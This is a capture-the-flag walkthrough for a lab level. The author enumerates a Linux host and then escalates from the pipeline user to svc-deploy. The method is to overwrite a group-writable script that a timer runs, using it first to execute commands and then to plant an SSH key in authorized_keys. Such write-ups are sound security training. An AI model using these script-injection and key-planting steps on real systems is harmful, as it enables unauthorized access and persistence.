# Level 5 - Timers Ticking
---
**Category:**  Pivot

**Points:** 900

**Difficulty:** Advanced

**Link:** https://breachlab.org/tracks/ghost/ii

## 📋 Description:
Enumeration of a machine all the way to exploiting the pipeline and exploiting weak configurations.


## 🛠️ Tools Used:
- ls
- cat
- ps
- find

## 🚀 Solution:

### Step 1:
We already have the private key for the pipeline user, so let's use it to connect to the next machine.

```bash
ssh -i id_pipeline pipeline@ghost2-s#########6
```
### Step 2:
We check the kael.txt in the home directory of the pipeline user:

```bash
cat kael.txt
```


Let's decrypt it, we have "Halcyon doesn't wait for a human to push deploy here", "on its own schedule". Those are the only ones I can see relevant...

Our objective is to become that automated job.

Alright. Let's start with linux enumeration.

### Step 3:
Firstly, we will enumerate the SUID bit.
```bash
find / -perm -4000
```


Immediately, we find a binary called "pkexec". What is pkexec? 

pkexec is a binary that permits a user to run a shell or program as another user in *unix systems, its configuration files are located in /etc/polkit-1 as it is part of Polkit which manages access polices. More on this later.

Then we will check the process table:
```bash
ps aux
```


There is indeed a user generated process that does `sleep infinity` as well as the journald process probably related to a script somewhere.

Now let's enumerate users:
```bash
cat /etc/passwd
```


We have a few interesting results:
```bash
pipeline:x:1000:1001::/home/pipeline:/bin/bash
svc-deploy:x:1001:1002::/home/svc-deploy:/bin/bash
releng:x:1002:1003::/home/releng:/bin/bash
signer:x:1003:1004::/home/signer:/bin/bash
```
We have our pipeline user.

A service user called `svc-deploy`.

Whatever releng is.

And we have signer user... What's interesting is that there is a discrepancy in the GID number... Where is GID 1000?

Let's enumerate the groups:
```bash
cat /etc/group
```


A few interesting informations come up... We have the `signer` user in `systemd-journal`... And the GID `1000` group is called `deploy`, we can see that the user `svc-deploy` is part of it. We also have the traditional user groups (`pipeline`, `svc-deploy`, `releng` and `signer`).

Alright... Now, we want to privilege escalate.

Let's enumerate the file system for important files now, we will start with `/opt`:
```bash
ls -laR /opt
```


Alright! We clearly have quite a few files in there. And what's interesting is that our user, `pipeline`'s group has access to one of the programs:
```bash
-rwxrwxr-x 1 root pipeline  336 Aug 22 21:12 deploy-step.sh
-rwxr-xr-x 1 root root      258 Aug 22 21:12 healthcheck-step.sh
-rwxr-xr-x 1 root root      248 Aug 22 21:12 logrotate-step.sh
-rwxr-xr-x 1 root root      242 Aug 22 21:12 metrics-step.sh
-rwxr-xr-x 1 root root      229 Aug 22 21:12 signer-daemon.sh
```

We will check all of them in the next step.

Next, the `/var` folder:
```bash
ls -laR /var
```

Interesting folder under `/var` is `/var/lib` and /var/log/halcyon:  




We can see that `/var/lib` has a directory called svc-deploy that we cannot yet access... Interesting is it not?

Let's see in `/usr/local/bin` and `/usr/local/sbin` to see if we have any binaries there:
```bash
ls -laR /usr/local/bin /usr/local/sbin
```


We have a few interesting world-readable scripts, one called `halcyon-ci-sync` and the two others are a runas script and the other is a reload script. We'll check them out later.


Another important folder is /etc/systemd/system, let's check it out:
```bash
ls -laR /etc/systemd/system
```


Oh... We can see quite a few interesting files here:
```bash
-rw-r--r-- 1 root root  198 Aug 22 21:12 halcyon-ci-sync.service
-rw-r--r-- 1 root root  126 Aug 22 21:12 halcyon-deploy.service
-rw-r--r-- 1 root root  207 Aug 22 21:12 halcyon-deploy.timer
-rw-r--r-- 1 root root  132 Aug 22 21:12 halcyon-healthcheck.service
-rw-r--r-- 1 root root  215 Aug 22 21:12 halcyon-healthcheck.timer
-rw-r--r-- 1 root root  115 Aug 22 21:12 halcyon-logrotate.service
-rw-r--r-- 1 root root  212 Aug 22 21:12 halcyon-logrotate.timer
-rw-r--r-- 1 root root  120 Aug 22 21:12 halcyon-metrics.service
-rw-r--r-- 1 root root  203 Aug 22 21:12 halcyon-metrics.timer
-rw-r--r-- 1 root root  402 Aug 22 21:12 halcyon-signer.service
```
Interesting isn't it? We will check them later.

The final folders I would like to enumerate are the PolKit configuration folder.
```bash
ls -laR /etc/polkit-1
```


So clearly, polkit is gonna be used at some point.

Anyhow. Now let's get our path up.

### Step 4:
Firstly we will check the most obvious ones, first, the `/opt/halcyon` folder:
```bash
cat /opt/halcyon/deploy-step.sh
```


As we can see... This is a bash script that just checks for health, it is related to the healthcheck-step.sh script, and it is run by the `svc-deploy` user. It checks for the health of the system, and if it is not healthy, it will exit with a non-zero exit code. This file clearly runs as root... So let's try to inject code in that file.

```bash
cat << 'EOF' > /opt/halcyon/deploy-step.sh
#!/usr/bin/env bash
id > /tmp/id
EOF
```

As we can see, after a bit, we have our id file in /tmp:
```bash
cat /tmp/id
```


Alright... So we have command execution as the svc-deploy user... Cool.

Let's get an ssh connection, first, the keys:
```bash
ssh-keygen -t ed25519 -f ~/.ssh/svcdeploy_key
```


Alright, we have our two keys, let's get our public key:
```bash
cat id_ed25519.pub
```


Using this, we can write a script to get a ssh connection as this user:
```bash
cat << 'EOF' > /opt/halcyon/deploy-step.sh
#!/usr/bin/env bash
mkdir -p /home/svc-deploy/.ssh
chmod 700 /home/svc-deploy/.ssh
echo 'ssh-ed25519 <your-key> pipeline@<yourdockerID> (this part is not obligated)' >> /home/svc-deploy/.ssh/authorized_keys
chmod 600 /home/svc-deploy/.ssh/authorized_keys
exit 0
EOF
```

And now we can connect as svc-deploy:
```bash
ssh -i svcdeploy_key svc-deploy@<yourdockerID>
```

### Step 5:
Now that we are svc-deploy, we can check the home directory of this user:
```bash
cd /home/svc-deploy
```

And after checking the home directory for this user, we have:
```bash
ls -laR
```


We have two files... `deploy-step.log` and `kael.txt`.

The deploy-step.log is the file we saw in the script of deploy-step.sh, it is the log of the healthcheck, and it is not interesting.

kael.txt however... 
```bash
cat kael.txt
```


Let's decrypt this... So "Small mercy: you are trusted to act as someone above you, but only in the exact ways someone wrote down. Trust is like a policy, not a password." 

So this clearly refers to the pkexec binary we saw at the start... We need to run the release engineer, releng, however that will be in the next level.

By the way, the **flag** is in one of the initial directories we enumerated in case you wonder, **you** will have to find it among the directories in the initial system enumeration part, can you find it?:


### Step 6:
Moving on to the next level with the unused informations we have left from here:
- The timers.
- The unused scripts.
- The `pkexec` utility.
